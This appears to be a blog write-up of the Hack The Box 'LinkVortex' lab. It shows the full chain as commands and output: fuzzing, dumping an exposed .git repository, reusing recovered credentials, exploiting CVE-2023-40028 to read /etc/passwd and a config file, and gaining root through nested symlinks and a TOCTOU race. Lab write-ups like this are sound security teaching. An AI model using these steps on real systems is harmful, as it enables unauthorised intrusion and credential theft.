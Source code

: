 ```yaml
---
title: LinkVortex - Linux Easy - HTB Writeup 
description:
slug: linkvortex-htb-writeup-linux-easy
date: 2025-04-13 00:00:00+0000
image: LinkVortex.PNG
categories:
    - Hack
    - Linux
    - Easy
tags:
    - Git
    - CVE-2023-40028
    - Symbolic links
    - Nested symlinks
    - TOCTOU

# weight: 1       # You can add weight to some posts to override the default sorting (date descending)
---
```

## Summary
User: Exposed .git repository & CVE-2023-40028\
Root: Nested symlinks or TOCTOU race condition exploit

## Enumeration
Starting with a simple nmap scan, we can identify that ssh and a web server are running.
{{< highlight go "hl_lines=1" >}}
$ nmap -Pn -p- 10.10.11.47 -v

PORT   STATE SERVICE
22/tcp open  ssh
80/tcp open  http
{{< /highlight >}}

## User
### Fuzzing


We discover ""BitByBit Hardware" website running on port 80 powered by Ghost CMS.
![](Bitbybit.PNG)


After adding it to our `hosts` file, we fuzz it and uncover a subdomain: `dev.linkvortex.htb`
{{< highlight go "hl_lines=1" >}}
$ ffuf -w /usr/share/seclists/Discovery/DNS/subdomains-top1million-20000.txt -u http://linkvortex.htb -H "host: FUZZ.linkvortex.htb" -fs 230
<...>
dev                     [Status: 200, Size: 2538, Words: 670, Lines: 116, Duration: 15ms]
{{< /highlight >}}
![](devLinkVortex.PNG)

Fuzzing this subdomain reveals the presence of a ```.git``` directory.\
{{< highlight go "hl_lines=1" >}}
$ ffuf -w /usr/share/seclists/Discovery/Web-Content/common.txt -u http://dev.linkvortex.htb/FUZZ
<...>
.git                    [Status: 301, Size: 239, Words: 14, Lines: 8, Duration: 15ms]
.git/HEAD               [Status: 200, Size: 41, Words: 1, Lines: 2, Duration: 18ms]
.git/logs/              [Status: 200, Size: 868, Words: 59, Lines: 16, Duration: 19ms]
.git/config             [Status: 200, Size: 201, Words: 14, Lines: 9, Duration: 17ms]
.git/index              [Status: 200, Size: 707577, Words: 2171, Lines: 2172, Duration: 17ms]
index.html              [Status: 200, Size: 2538, Words: 670, Lines: 116, Duration: 16ms]
server-status           [Status: 403, Size: 199, Words: 14, Lines: 8, Duration: 19ms]
{{< /highlight >}}

We can then use the tool [GitHack](https://github.com/lijiejie/GitHack) to recover the original source code.

{{< highlight go "hl_lines=1" >}}
$ ./GitHack.py http://dev.linkvortex.htb/.git/
<...>
$ tree dev.linkvortex.htb 
dev.linkvortex.htb
├── Dockerfile.ghost
└── ghost
    └── core
        └── test
            └── regression
                └── api
                    └── admin
                        └── authentication.test.js

7 directories, 2 files
{{< /highlight >}}

Among the recovered files, we find ```authentication.test.js```, which contains the admin credentials:

{{< highlight go "hl_lines=1 5" >}}
$ less ghost/core/test/regression/api/admin/authentication.test.js
<...>
        it('complete setup', async function () {
            const email = 'test@example.com';
            const password = 'OctopiFociPilfer45';

            const requestMock = nock('https://api.github.com')
                .get('/repos/tryghost/dawn/zipball')
                .query(true)
                .replyWithFile(200, fixtureManager.getPathForFixture('themes/valid.zip'));
<...>
{{< /highlight >}}

We can then use this password to access the administration interface(username can be easily guessed as *admin@linkvortex.htb*) using http://linkvortex.htb/ghost/#/signin but it doesn't give us further access.

However, in ```Dockerfile.ghost```, we find the Ghost version: 5.58.0, which is vulnerable to [CVE-2023-40028](https://cve.mitre.org/cgi-bin/cvename.cgi?name=2023-40028), an arbitrary file read vulnerability.
{{< highlight go "hl_lines=1" >}}
$ cat Dockerfile.ghost         
FROM ghost:5.58.0
<...>
{{< /highlight >}}

Using this [exploit](https://github.com/0xDTC/Ghost-5.58-Arbitrary-File-Read-CVE-2023-40028), we can try it to read the `/etc/passwd` file.

{{< highlight go "hl_lines=1" >}}
$ ./CVE-2023-40028 -u admin@linkvortex.htb -p OctopiFociPilfer45 -h http://linkvortex.htb
WELCOME TO THE CVE-2023-40028 SHELL
Enter the file path to read (or type 'exit' to quit): /etc/passwd
File content:
root:x:0:0:root:/root:/bin/bash
daemon:x:1:1:daemon:/usr/sbin:/usr/sbin/nologin
<...>
{{< /highlight >}}

What other interresting files can we read ? Well, looking back at `Dockerfile.ghost`, we find a config file path: `/var/lib/ghost/config.production.json`.

{{< highlight go "hl_lines=1" >}}
$ cat Dockerfile.ghost         
FROM ghost:5.58.0

# Copy the config
COPY config.production.json /var/lib/ghost/config.production.json
<...>
{{< /highlight >}}

Reading this file via the CVE reveals the credentials of the user: ```bob```.

{{< highlight go "hl_lines=1 13 14" >}}
$ ./CVE-2023-40028 -u admin@linkvortex.htb -p OctopiFociPilfer45 -h http://linkvortex.htb
WELCOME TO THE CVE-2023-40028 SHELL
Enter the file path to read (or type 'exit' to quit): /var/lib/ghost/config.production.json
File content:
<...>
"mail": {
     "transport": "SMTP",
     "options": {
      "service": "Google",
      "host": "linkvortex.htb",
      "port": 587,
      "auth": {
        "user": "bob@linkvortex.htb",
        "pass": "fibber-talented-worth"
        }
      }
    }
{{< /highlight >}}

With these credentials, we canconnect via SSH the machine and retrieve the user flag.
{{< highlight go "hl_lines=1" >}}
$ ssh bob@linkvortex.htb 
bob@linkvortex:~$ pwd; ls
/home/bob
user.txt
{{< /highlight >}}

## Root
### Symlinks

Running `sudo -l`, we find that bob can execute the script ```clean_symlink.sh``` as root without a password:

{{< highlight go "hl_lines=1 8" >}}
bob@linkvortex:~$ sudo -l
Matching Defaults entries for bob on linkvortex:
    env_reset, mail_badpass,
    secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin, use_pty,
    env_keep+=CHECK_CONTENT

User bob may run the following commands on linkvortex:
    (ALL) NOPASSWD: /usr/bin/bash /opt/ghost/clean_symlink.sh *.png
{{< /highlight >}}

If we take a look at second part of the script, we see that it checks for the presence of ```etc``` or ```root``` in the symlink target path. If such terms are detected, the link is deleted.\
Otherwise, it is moved to ```/var/quarantined```, and if the environment variable `CHECK_CONTENT` is set to true, the file content is displayed.

{{< highlight go "hl_lines=1" >}}
bob@linkvortex:~$ cat /opt/ghost/clean_symlink.sh
#!/bin/bash

QUAR_DIR="/var/quarantined"

if [ -z $CHECK_CONTENT ];then
  CHECK_CONTENT=false
fi

LINK=$1

if ! [[ "$LINK" =~ \.png$ ]]; then
  /usr/bin/echo "! First argument must be a png file !"
  exit 2
fi

if /usr/bin/sudo /usr/bin/test -L $LINK;then
  LINK_NAME=$(/usr/bin/basename $LINK)
  LINK_TARGET=$(/usr/bin/readlink $LINK)
  if /usr/bin/echo "$LINK_TARGET" | /usr/bin/grep -Eq '(etc|root)';then
    /usr/bin/echo "! Trying to read critical files, removing link [ $LINK ] !"
    /usr/bin/unlink $LINK
  else
    /usr/bin/echo "Link found [ $LINK ] , moving it to quarantine"
    /usr/bin/mv $LINK $QUAR_DIR/
    if $CHECK_CONTENT;then
      /usr/bin/echo "Content:"
      /usr/bin/cat $QUAR_DIR/$LINK_NAME 2>/dev/null
    fi
  fi
fi
{{< /highlight >}}

We can use two approaches to bypass these checks and read the `root.txt` file: nested symlinks or TOCTOU exploit.

### Method 1: Nested symlinks
We create two symlinks, link1.png to link2.png and link2.png points to /root/root.txt.\
This way, link1 bypasses the keyword check since its target doesn't contain `(etc|root)`.

/home/bob/link1.png -> /home/bob/link2.png -> root.txt

{{< highlight go "hl_lines=4 7" >}}
bob@linkvortex:~$ export CHECK_CONTENT=true
bob@linkvortex:~$ ln -s /root/root.txt link2.png
bob@linkvortex:~$ ln -s $PWD/link2.png link1.png
bob@linkvortex:~$ sudo /usr/bin/bash /opt/ghost/clean_symlink.sh link1.png
Link found [ link1.png ] , moving it to quarantine
Content:
6<...>3
{{< /highlight >}}

### Method 2: TOCTOU race condition
The script checks if the file is a symlink using ```/usr/bin/test -L link.png```. Then, it calls ```basename``` and ```readlink``` based on that assumption.\
Between the check and the read of the symlink, we can exploit a race condition by continuously interchange the symlink target ```/tmp/random``` to ```/root/root.txt```.

In one terminal, we run a loop that flips the symlink target.\
In another terminal, we repeatedly execute the vulnerable script.

If the timing is right, the script displays the content of `root.txt`.\
This vulnerability is called TOCTOU (Time-of-Check to Time-of-use).\
Using this [article](https://brandon-t-elliott.github.io/tic-tac), we can try to access `root.txt`.

Terminal 1
{{< highlight go "hl_lines=1" >}}
bob@linkvortex:~$ timeout 5s bash -c 'while true; do ln -sf $PWD/random $PWD/link.png; ln -sf /root/root.txt $PWD/link.png; done'
ln: failed to create symbolic link '/home/bob/link.png': File exists
ln: failed to create symbolic link '/home/bob/link.png': File exists
<...>
{{< /highlight >}}

Terminal 2
{{< highlight go "hl_lines=1 4" >}}
bob@linkvortex:~$ timeout 2s bash -c 'while true; do sudo /usr/bin/bash /opt/ghost/clean_symlink.sh link.png; done'
Link found [ link.png ] , moving it to quarantine
Content:
6<...>3
! Trying to read critical files, removing link [ link.png ] !
Link found [ link.png ] , moving it to quarantine
Content:
6<...>3
<...>
{{< /highlight >}}


## Resources
> [CVE-2023-40028 exploit](https://github.com/0xDTC/Ghost-5.58-Arbitrary-File-Read-CVE-2023-40028)\
> [GitHack](https://github.com/lijiejie/GitHack)\
> [CTF Writeup: picoCTF 2023 - "Tic-Tac"](https://brandon-t-elliott.github.io/tic-tac)